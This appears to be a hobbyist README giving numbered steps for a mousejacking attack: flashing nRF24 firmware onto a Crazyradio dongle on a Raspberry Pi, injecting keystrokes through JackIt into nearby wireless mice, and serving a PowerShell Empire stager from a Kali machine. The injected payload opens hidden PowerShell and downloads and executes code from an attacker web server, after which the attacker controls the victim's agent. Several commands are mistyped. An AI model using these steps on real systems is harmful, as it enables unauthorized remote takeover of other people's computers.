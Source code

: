 MOUSE JACKING
REQUIREMENTS :-
crazy radio PA usb adapter (chip nRF 24L)

=> MINI RASPBERRY PI 0

=> 3.5/3.7 v BATTERY

GITHUB LINK :->
https://github.com/insecurityofthings/jackit

RASPBERRY PI COMMANDS :=>
Step 1 :-> sudo apt-get update

Step 2 :-> sudo apt-get upgrade

Step 3 :-> sudo apt-get install sdcc binutils python python-pip git openssh-server

Step 4 :-> pip install -U pip

Step 5 :-> pip install -U -I pyusb

Step 6 :-> pip install -U platformio

Step 7 :-> gitclone https://github.com/BastilleResearch/nrf-research-firmware

Step 8 :-> cd nrf-research-firmware

Step 9 :-> ls

Step 10 :-> sudo make

Step 11 :-> connect usb dongle to raspberry pi

Step 12 :-> type => sudo make install

Step 13 :-> gitclone https://github.com/insecurityofthings/jackit.git

Step 14 :-> cd..

Step 15 :-> cd jackit

Step 16 :-> cat requirements.txt

Step 17 :-> sudo pip install -r requirements.txt

Step 18 :-> cd nrf-research-firmware

Step 19 :-> cd tools

Step 20 :-> cd jackit

Step 21 :-> sudo touch pspwn

Step 22 :-> sudo vi pspwn

Step 23 :-> GUI r

Step 24 :-> DELAY 200

Step 25 :-> STRING powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring(http://apachewebserverIP/filename')" ((EXAMPLE FOR THIS =>> HTTP://192.168.0.0/PSPWN))

Step 26 :-> enter =>> PRESS ESC =>> TYPE wq:! =>> press ENTER (to save the file)

to search the listner :=>>
Step 27 :-> sudo python nrf24-scanner.py -L

Step 28 :-> CTRL + C

USING EMPIRE IN KALI-LINUX ATTACKER MACHINE
Step 29 :-> sudo apt-get update

Step 30 :-> sudo apt-get upgrade

Step 31 :-> sudo apt-get install -y git apache2 python-pip python-dev python-m2crypto swig

Step 32 :-> sudo pip install pycrypto iptools pydispatcher flask

Step 33 :-> sudo git clone https://github.com/powershellEmprie/Empire.git

Step 34 :-> cd Empire/setup

Step 35 :-> sudo ./install.sh

Step 36 :-> enter

Step 37 :-> cd..

Step 38 :-> cd ./Empire

Step 39 :-> listeners

Step 40 :-> info

Step 41 :-> set name filename(example pspwn)

Step 42 :-> set host http://apachewebserverIP ADDRESS:8080

Step 43 :-> execute

Step 44 :-> list

Step 45 :-> use stager launcher

Step 46 :-> set Listener filename(example pspwm)

Step 47 :-> set Base64 False

Step 48 :-> set Outfile filename.ps1(example pspwn.ps1)

Step 49 :-> generate

Step 50 :-> exit =>> ls

Step 51 :-> now copy the file to apache web server folder

Step 52 :-> sudo cp filename.ps1(example pspwn.ps1) /var/www/html/name of the file(example pspwn)

Step 53 :-> sudo ./Empire

JACKIT TERMINAL
Step 54 :-> sudo python jackit.py --script pspwn

Step 55 :-> cntrl + C

Step 56 :-> enter the key no of the mouse targets on the screen for example 1 ,2 ,3.

KALI LINUX EMPIRE TERMINAL
Step 57 :-> agents

Step 58 :-> interact agentname

Step 59 :-> ls

Step 60 :-> getpid

Step 61 :-> getuid

Step 60 :-> cd c:\Users\ (to run powershell service)